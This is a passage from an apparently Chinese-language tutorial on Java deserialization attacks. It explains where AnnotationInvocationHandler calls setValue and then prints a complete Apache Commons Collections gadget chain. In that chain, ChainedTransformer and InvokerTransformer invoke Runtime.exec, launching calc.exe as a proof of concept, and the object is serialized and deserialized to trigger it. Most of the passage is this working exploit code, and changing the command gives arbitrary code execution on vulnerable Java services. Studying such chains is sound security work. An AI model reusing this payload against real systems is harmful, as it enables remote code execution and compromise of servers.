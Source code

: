 ```
            }
        }

    }
}
```

setValue的点在这一行

```
var5.setValue((new AnnotationTypeMismatchExceptionProxy(var8.getClass() + "[" + var8 + "]")).setMember((Method)var2.members().get(var6)));
```

最后利用的payload如下

```
package Serialize2;


import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.io.*;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.util.HashMap;
import java.util.Map;

public class ApacheSerialize2 implements Serializable {
    public static void main(String[] args) throws Exception{
         Transformer[] transformers = new Transformer[]{
                 new ConstantTransformer(Runtime.class),
                 new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                 new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
                 new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"})
         };
         Transformer transformerChain = new ChainedTransformer(transformers);

         Map map = new HashMap();
         map.put("value", "sijidou");
         Map transformedMap = TransformedMap.decorate(map, null, transformerChain);

         Class cl = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
         Constructor ctor = cl.getDeclaredConstructor(Class.class, Map.class);
         ctor.setAccessible(true);
         Object instance = ctor.newInstance(Target.class, transformedMap);

         //序列化
         FileOutputStream fileOutputStream = new FileOutputStream("serialize3.txt");
         ObjectOutputStream objectOutputStream = new ObjectOutputStream(fileOutputStream);
         objectOutputStream.writeObject(instance);
         objectOutputStream.close();

         //反序列化
         FileInputStream fileInputStream = new FileInputStream("serialize3.txt");
         ObjectInputStream objectInputStream = new ObjectInputStream(fileInputStream);
         Object result = objectInputStream.readObject();
         objectInputStream.close();
```